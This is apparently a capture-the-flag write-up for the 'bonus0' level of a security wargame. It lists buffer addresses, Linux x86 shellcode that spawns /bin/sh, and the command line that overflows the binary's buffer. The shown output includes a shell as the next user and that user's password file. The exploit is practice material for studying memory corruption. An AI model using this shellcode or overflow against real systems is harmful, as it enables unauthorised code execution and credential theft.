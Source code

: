 # bonus0

start of buffer: 0xbffff6f6

buffer end addr:	0xbffff733
					0xb7fd0ff4


buffer's end addr: 0xbffff72c


4096 buffer start addr: 0xbfffe660   \x60\xe6\xff\xbf


shellcode : 
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

0xbffff730 - 0xbffff6f6 = 0x14 = 20


```sh
$> (python -c 'print("\x90"*1000 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")'; python -c 'print("\x90"*9 + "\xc0\xe6\xff\xbf" + "\x90"*7)'; cat) | ./bonus0
 - 
 - 
[...]
whoami
bonus1
cat /home/user/bonus1/.pass 
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
